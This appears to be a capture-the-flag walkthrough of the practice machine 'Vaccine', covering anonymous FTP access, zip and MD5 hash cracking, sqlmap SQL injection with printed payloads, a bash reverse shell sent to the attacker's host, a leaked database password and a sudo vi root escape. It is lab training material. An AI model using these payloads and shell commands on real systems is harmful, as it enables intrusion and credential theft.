

# VACCINE

STARTING POINT - Tier 2

## Enumeration

```bash
└─$ sudo nmap -sS -sC -sV 10.129.182.252 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-02 06:35 PDT
Nmap scan report for 10.129.182.252
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.15.61
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.86 seconds
```

After scan, we have a FTP, SSH and Web server services running.

Point that:

- The FTP server can be accessed with an **anonymous** login.

Since that, we can easily access the FTP server:

```bash
└─$ ftp 10.129.182.252
Connected to 10.129.182.252.
220 (vsFTPd 3.0.3)
Name (10.129.182.252:g1b4): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10999|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp>
```

After successful access, we found the `backup.zip` file. Let's download and analyze it

```bash
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10106|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |***********************************|  2533      969.29 KiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (9.29 KiB/s)
```

Exit FTP server

```bash
└─$ ls -l
total 8
-rw-rw-r-- 1 g1b4 g1b4 2533 Apr 13  2021 backup.zip
-rw-r--r-- 1 root root 1536 Aug  2 06:35 nmap.txt
```

This zip file has an archive with a password. Use the `zip2john` to crack it

```bash
└─$ sudo zip2john backup.zip > backup.txt
[sudo] password for g1b4:
Created directory: /root/.john
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

└─$ cat backup.txt
backup.zip:$pkzip$2*1*1*0*8*24*5722*543fb39ed1a919ce7b58641a238e00f4cb3a826cfb1b8f4b225aa15c4ffda8fe72f60a82*2*0*3da*cca*1b1ccd6a*504*43*8*3da*989a*22290dc3505e51d341f31925a7ffefc181ef9f66d8d25e53c82afc7c1598fbc3fff28a17ba9d8cec9a52d66a11ac103f257e14885793fe01e26238915796640e8936073177d3e6e28915f5abf20fb2fb2354cf3b7744be3e7a0a9a798bd40b63dc00c2ceaef81beb5d3c2b94e588c58725a07fe4ef86c990872b652b3dae89b2fff1f127142c95a5c3452b997e3312db40aee19b120b85b90f8a8828a13dd114f3401142d4bb6b4e369e308cc81c26912c3d673dc23a15920764f108ed151ebc3648932f1e8befd9554b9c904f6e6f19cbded8e1cac4e48a5be2b250ddfe42f7261444fbed8f86d207578c61c45fb2f48d7984ef7dcf88ed3885aaa12b943be3682b7df461842e3566700298efad66607052bd59c0e861a7672356729e81dc326ef431c4f3a3cdaf784c15fa7eea73adf02d9272e5c35a5d934b859133082a9f0e74d31243e81b72b45ef3074c0b2a676f409ad5aad7efb32971e68adbbb4d34ed681ad638947f35f43bb33217f71cbb0ec9f876ea75c299800bd36ec81017a4938c86fc7dbe2d412ccf032a3dc98f53e22e066defeb32f00a6f91ce9119da438a327d0e6b990eec23ea820fa24d3ed2dc2a7a56e4b21f8599cc75d00a42f02c653f9168249747832500bfd5828eae19a68b84da170d2a55abeb8430d0d77e6469b89da8e0d49bb24dbfc88f27258be9cf0f7fd531a0e980b6defe1f725e55538128fe52d296b3119b7e4149da3716abac1acd841afcbf79474911196d8596f79862dea26f555c772bbd1d0601814cb0e5939ce6e4452182d23167a287c5a18464581baab1d5f7d5d58d8087b7d0ca8647481e2d4cb6bc2e63aa9bc8c5d4dfc51f9cd2a1ee12a6a44a6e64ac208365180c1fa02bf4f627d5ca5c817cc101ce689afe130e1e6682123635a6e524e2833335f3a44704de5300b8d196df50660bb4dbb7b5cb082ce78d79b4b38e8e738e26798d10502281bfed1a9bb6426bfc47ef62841079d41dbe4fd356f53afc211b04af58fe3978f0cf4b96a7a6fc7ded6e2fba800227b186ee598dbf0c14cbfa557056ca836d69e28262a060a201d005b3f2ce736caed814591e4ccde4e2ab6bdbd647b08e543b4b2a5b23bc17488464b2d0359602a45cc26e30cf166720c43d6b5a1fddcfd380a9c7240ea888638e12a4533cfee2c7040a2f293a888d6dcc0d77bf0a2270f765e5ad8bfcbb7e68762359e335dfd2a9563f1d1d9327eb39e68690a8740fc9748483ba64f1d923edfc2754fc020bbfae77d06e8c94fba2a02612c0787b60f0ee78d21a6305fb97ad04bb562db282c223667af8ad907466b88e7052072d6968acb7258fb8846da057b1448a2a9699ac0e5592e369fd6e87d677a1fe91c0d0155fd237bfd2dc49*$/pkzip$::backup.zip:style.css, index.php:backup.zip
```

Use `john` to crack the content of the `backup.txt` file.

```bash
└─$ john -w=/usr/share/wordlists/rockyou.txt backup.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)
1g 0:00:00:00 DONE (2024-08-02 07:08) 50.00g/s 409600p/s 409600c/s 409600C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The password obtained after successfully cracking is `741852963`.

Let's `unzip` and view the content:

```bash
└─$ unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password:
  inflating: index.php
  inflating: style.css


└─$ cat index.php
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>MegaCorp Login</title>
  <link href="https://fonts.googleapis.com/css?family=Open+Sans:400,700" rel="stylesheet"><link rel="stylesheet" href="./style.css">

</head>
  <h1 align=center>MegaCorp Login</h1>
<body>
<!-- partial:index.partial.html -->
<body class="align">

  <div class="grid">

    <form action="" method="POST" class="form login">

      <div class="form__field">
        <label for="login__username"><svg class="icon"><use xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="#user"></use></svg><span class="hidden">Username</span></label>
        <input id="login__username" type="text" name="username" class="form__input" placeholder="Username" required>
      </div>

      <div class="form__field">
        <label for="login__password"><svg class="icon"><use xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="#lock"></use></svg><span class="hidden">Password</span></label>
        <input id="login__password" type="password" name="password" class="form__input" placeholder="Password" required>
      </div>

      <div class="form__field">
        <input type="submit" value="Sign In">
      </div>

    </form>


  </div>

  <svg xmlns="http://www.w3.org/2000/svg" class="icons"><symbol id="arrow-right" viewBox="0 0 1792 1792"><path d="M1600 960q0 54-37 91l-651 651q-39 37-91 37-51 0-90-37l-75-75q-38-38-38-91t38-91l293-293H245q-52 0-84.5-37.5T128 1024V896q0-53 32.5-90.5T245 768h704L656 474q-38-36-38-90t38-90l75-75q38-38 90-38 53 0 91 38l651 651q37 35 37 90z"/></symbol><symbol id="lock" viewBox="0 0 1792 1792"><path d="M640 768h512V576q0-106-75-181t-181-75-181 75-75 181v192zm832 96v576q0 40-28 68t-68 28H416q-40 0-68-28t-28-68V864q0-40 28-68t68-28h32V576q0-184 132-316t316-132 316 132 132 316v192h32q40 0 68 28t28 68z"/></symbol><symbol id="user" viewBox="0 0 1792 1792"><path d="M1600 1405q0 120-73 189.5t-194 69.5H459q-121 0-194-69.5T192 1405q0-53 3.5-103.5t14-109T236 1084t43-97.5 62-81 85.5-53.5T538 832q9 0 42 21.5t74.5 48 108 48T896 971t133.5-21.5 108-48 74.5-48 42-21.5q61 0 111.5 20t85.5 53.5 62 81 43 97.5 26.5 108.5 14 109 3.5 103.5zm-320-893q0 159-112.5 271.5T896 896 624.5 783.5 512 512t112.5-271.5T896 128t271.5 112.5T1280 512z"/></symbol></svg>

</body>
<!-- partial -->

</body>
</html>
```

After analysis, we see potential usernames and passwords in the file. The password appears to be hashed using MD5:

```
user: admin
password: 2cb42f8734ea607eefed3b70af13bbd3
```

Use **John The Ripper** again to crack MD5 hash:

```bash
└─$ echo 2cb42f8734ea607eefed3b70af13bbd3 > admin.txt

└─$ john -w=/usr/share/wordlists/rockyou.txt admin.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty789        (?)
1g 0:00:00:00 DONE (2024-08-02 07:20) 33.33g/s 3340Kp/s 3340Kc/s 3340KC/s shunda..pogimo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Cracking successful, we have the admin credentials:

```
user: admin
password: qwerty789
```

Let's access the website, input the admin's credentials we just found.


After successful login, we will see the homepage of the website



The search input field seemly has vulnerability, so I enter the `'` character then the website return the error like this:


A great tool to try first is sqlmap, we can pass along the url to the search alond with our browser cookie ID:

```bash
└─$ sqlmap -u 'http://10.129.182.252/dashboard.php?search=any+query' --cookie="PHPSESSID=mdmjui7e98mfsg6ra29fv46d71"
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8.6.3#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:33:40 /2024-08-02/

[07:33:40] [INFO] testing connection to the target URL
[07:33:40] [INFO] checking if the target is protected by some kind of WAF/IPS
[07:33:41] [INFO] testing if the target URL content is stable
[07:33:41] [INFO] target URL content is stable
[07:33:41] [INFO] testing if GET parameter 'search' is dynamic
[07:33:41] [WARNING] GET parameter 'search' does not appear to be dynamic
[07:33:42] [WARNING] heuristic (basic) test shows that GET parameter 'search' might not be injectable
[07:33:42] [INFO] testing for SQL injection on GET parameter 'search'
[07:33:42] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[07:33:48] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[07:33:49] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[07:33:50] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[07:33:52] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[07:33:53] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[07:33:54] [INFO] testing 'Generic inline queries'
[07:33:55] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[07:34:07] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] y
[07:35:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[07:35:15] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[07:35:15] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[07:35:15] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[07:35:16] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[07:35:17] [WARNING] reflective value(s) found and filtering out
[07:35:17] [INFO] target URL appears to have 5 columns in query
[07:35:18] [INFO] GET parameter 'search' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 49 HTTP(s) requests:
---
Parameter: search (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=any query';SELECT PG_SLEEP(5)--

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=any query' UNION ALL SELECT NULL,NULL,(CHR(113)||CHR(112)||CHR(107)||CHR(107)||CHR(113))||(CHR(104)||CHR(80)||CHR(77)||CHR(65)||CHR(103)||CHR(71)||CHR(104)||CHR(67)||CHR(104)||CHR(82)||CHR(107)||CHR(67)||CHR(77)||CHR(105)||CHR(106)||CHR(104)||CHR(109)||CHR(70)||CHR(101)||CHR(103)||CHR(77)||CHR(78)||CHR(73)||CHR(81)||CHR(73)||CHR(71)||CHR(103)||CHR(84)||CHR(97)||CHR(117)||CHR(73)||CHR(73)||CHR(104)||CHR(82)||CHR(84)||CHR(76)||CHR(67)||CHR(97)||CHR(112)||CHR(79))||(CHR(113)||CHR(98)||CHR(98)||CHR(120)||CHR(113)),NULL,NULL-- vNmO
---
[07:35:27] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[07:35:31] [INFO] fetched data logged to text files under '/home/g1b4/.local/share/sqlmap/output/10.129.182.252'

[*] ending @ 07:35:31 /2024-08-02/
```

We discover the sqlmap has found a vulnerability! We can now re-run the command and use the `--os-shell` flag to give a shell:

```bash
└─$ sqlmap -u 'http://10.129.182.252/dashboard.php?search=any+query' --cookie="PHPSESSID=mdmjui7e98mfsg6ra29fv46d71" --os-shell
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.6.3#dev}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:37:47 /2024-08-02/

[07:37:48] [INFO] resuming back-end DBMS 'postgresql'
[07:37:48] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=any query';SELECT PG_SLEEP(5)--

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=any query' UNION ALL SELECT NULL,NULL,(CHR(113)||CHR(112)||CHR(107)||CHR(107)||CHR(113))||(CHR(104)||CHR(80)||CHR(77)||CHR(65)||CHR(103)||CHR(71)||CHR(104)||CHR(67)||CHR(104)||CHR(82)||CHR(107)||CHR(67)||CHR(77)||CHR(105)||CHR(106)||CHR(104)||CHR(109)||CHR(70)||CHR(101)||CHR(103)||CHR(77)||CHR(78)||CHR(73)||CHR(81)||CHR(73)||CHR(71)||CHR(103)||CHR(84)||CHR(97)||CHR(117)||CHR(73)||CHR(73)||CHR(104)||CHR(82)||CHR(84)||CHR(76)||CHR(67)||CHR(97)||CHR(112)||CHR(79))||(CHR(113)||CHR(98)||CHR(98)||CHR(120)||CHR(113)),NULL,NULL-- vNmO
---
[07:37:48] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[07:37:48] [INFO] fingerprinting the back-end DBMS operating system
[07:37:50] [INFO] the back-end DBMS operating system is Linux
[07:37:50] [INFO] testing if current user is DBA
[07:37:52] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[07:37:52] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell>
```

Bring the shell to our attack machine

```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...
```

```bash
os-shell> bash -c "bash -i >& /dev/tcp/10.10.15.61/4444 0>&1"
do you want to retrieve the command standard output? [Y/n/a] y
[07:40:22] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
```

```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.15.61] from (UNKNOWN) [10.129.182.252] 53314
bash: cannot set terminal process group (3094): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$
```

Going around and we found the user flag at `/var/lib/postgresql`.

```bash
postgres@vaccine:/var/lib/postgresql$ ls -l
ls -l
total 8
drwxr-xr-x 3 postgres postgres 4096 Jul 23  2021 11
-r-------- 1 postgres postgres   33 Oct 11  2021 user.txt
```

Continuing going around, we found the interesting things in file `dashboard.php` in `/var/www/html`.

```bash
postgres@vaccine:/var/www/html$ ls -l
ls -l
total 384
-rw-rw-r-- 1 root root 362847 Feb  3  2020 bg.png
-rw-r--r-- 1 root root   4723 Feb  3  2020 dashboard.css
-rw-r--r-- 1 root root     50 Jan 30  2020 dashboard.js
-rw-r--r-- 1 root root   2313 Feb  4  2020 dashboard.php
-rw-r--r-- 1 root root   2594 Feb  3  2020 index.php
-rw-r--r-- 1 root root   1100 Jan 30  2020 license.txt
-rw-r--r-- 1 root root   3274 Feb  3  2020 style.css
postgres@vaccine:/var/www/html$ cat dashboard.php
cat dashboard.php
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Admin Dashboard</title>
  <link rel="stylesheet" href="./dashboard.css">
  <script src="https://use.fontawesome.com/33a3739634.js"></script>

</head>
<body>
<!-- partial:index.partial.html -->
<body>
 <div id="wrapper">
 <div class="parent">
  <h1 align="left">MegaCorp Car Catalogue</h1>
<form action="" method="GET">
<div class="search-box">
  <input type="search" name="search" placeholder="Search" />
  <button type="submit" class="search-btn"><i class="fa fa-search"></i></button>
</div>
</form>
  </div>

  <table id="keywords" cellspacing="0" cellpadding="0">
    <thead>
      <tr>
        <th><span style="color: white">Name</span></th>
        <th><span style="color: white">Type</span></th>
        <th><span style="color: white">Fuel</span></th>
        <th><span style="color: white">Engine</span></th>
      </tr>
    </thead>
    <tbody>
	<?php
	session_start();
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}

	catch ( exception $e ) {
	  echo $e->getMessage();
	}

	if(isset($_REQUEST['search'])) {

	  $q = "Select * from cars where name ilike '%". $_REQUEST["search"] ."%'";

	  $result = pg_query($conn,$q);

	  if (!$result)
	  {
			    die(pg_last_error($conn));
	  }
	  while($row = pg_fetch_array($result, NULL, PGSQL_NUM))
	      {
		echo "
		  <tr>
		    <td class='lalign'>$row[1]</td>
		    <td>$row[2]</td>
		    <td>$row[3]</td>
		    <td>$row[4]</td>
		  </tr>";
	    }
	}
	else {

	  $q = "Select * from cars";

	  $result = pg_query($conn,$q);

	  if (!$result)
	  {
			    die(pg_last_error($conn));
	  }
	  while($row = pg_fetch_array($result, NULL, PGSQL_NUM))
	      {
		echo "
		  <tr>
		    <td class='lalign'>$row[1]</td>
		    <td>$row[2]</td>
		    <td>$row[3]</td>
		    <td>$row[4]</td>
		  </tr>";
	    }
	}


      ?>
    </tbody>
  </table>
 </div>
</body>
<!-- partial -->
  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
<script src='https://cdnjs.cloudflare.com/ajax/libs/jquery.tablesorter/2.28.14/js/jquery.tablesorter.min.js'></script><script  src="./dashboard.js"></script>

</body>
</html>
```

At this line of code, we noticed the interesting things:

```bash
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

## Privileges Escalation

Let's connect the SSH server using this credentials:

```bash
└─$ ssh postgres@10.129.182.252
The authenticity of host '10.129.182.252 (10.129.182.252)' can't be established.
ED25519 key fingerprint is SHA256:4qLpMBLGtEbuHObR8YU15AGlIlpd0dsdiGh/pkeZYFo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.129.182.252' (ED25519) to the list of known hosts.
postgres@10.129.182.252's password:
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 02 Aug 2024 02:55:06 PM UTC

  System load:  0.0               Processes:             187
  Usage of /:   32.6% of 8.73GB   Users logged in:       0
  Memory usage: 19%               IP address for ens160: 10.129.182.252
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

postgres@vaccine:~$
```

Login was successful! We upgraded to a more stable connection and we can now test the privileges:

```bash
postgres@vaccine:/$ sudo -l
[sudo] password for postgres:
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

It looks like we have been given su access to the following commands `/bin/vi /etc/postgresql/11/main/pg_hba.conf`:

```bash
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Privilege Escalation by using this technique [GTFOBins](https://gtfobins.github.io/gtfobins/vi/)

```bash
:set shell=/bin/bash
:shell
```

```bash
# whoami
root
#
```

## Conclusion

Tools:

- **nmap**: scanning ports and services on host.
- **John The Ripper tool sets**: crack password.
- **sqlmap**: find and exploit SQL injection vulnerability.
